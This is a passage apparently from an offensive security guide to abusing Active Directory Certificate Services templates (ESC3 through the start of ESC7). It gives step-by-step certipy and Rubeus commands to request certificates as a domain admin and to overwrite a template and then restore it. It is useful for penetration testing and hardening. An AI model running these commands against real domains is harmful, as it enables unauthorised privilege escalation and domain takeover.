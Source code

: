 ```javascript
root@kali:~# certipy req '<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>' -on-behalf-of '<domain_name>\<domain_admin>' -pfx 'domain_admin.pfx'
```

**3) Use Rubeus with the certificate to authenticate as the other user**

```javascript
PS C:\temp> .\Rubeus.exe asktgt /user:<domain_name>\<domain_admin> /certificate:domain_admin.pfx /password:<password>
```

### **Vulnerable Certificate Template Access Control – ESC4**

The security of certificate templates relies on proper access control. If access control is misconfigured, it can allow unintended or unprivileged users to modify sensitive security settings within the templates. For example, granting Domain Computers excessive permissions over a certificate template’s AD object can enable attackers with access to any AD computer to modify the template and exploit its vulnerabilities.

**1) Overwrite the configuration to make it vulnerable to ESC1**

```javascript
root@kali:~# certipy template '<domain_fqdn>/<domain_user>:<domain_user_password>@<ca_dns_hostname>' -hashes <hash> -template '<vulnerable_template>' -save-old
```

**2) Request a certificate based on the ESC4 template, just like ESC1**

```javascript
root@kali:~# certipy req '<domain_fqdn>/<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>' -alt '<domain_admin>'
```

**3) Restore the old configuration**

```javascript
root@kali:~# certipy template '<domain_fqdn>/<domain_user>:<domain_user_password>@<ca_dns_hostname>' -hashes <hash> -template '<vulnerable_template>' -configuration <vulnerable_template>.json
```

### **Vulnerable PKI Object Access Control – ESC5**

Beyond certificate templates, other objects within AD CS, such as the CA server’s AD computer object, RPC/DCOM servers, and various AD containers, can impact the security of the entire AD CS system. If these objects have insecure access control settings, they can be exploited by attackers to compromise the PKI infrastructure and escalate their privileges within the domain.

**The Impact of EDITF\_ATTRIBUTESUBJECTALTNAME2 – ESC6**

The EDITF\_ATTRIBUTESUBJECTALTNAME2 flag allows the inclusion of user-defined values in the Subject Alternative Name (SAN) field of a certificate, even when the subject is built from Active Directory. This flag, when enabled on a CA, can enable attackers to abuse certificate templates that allow domain authentication. By specifying arbitrary SANs, attackers can authenticate as any user, including domain administrators, posing a significant security risk.

**Flaws in Certificate Authority Access Control – ESC7**
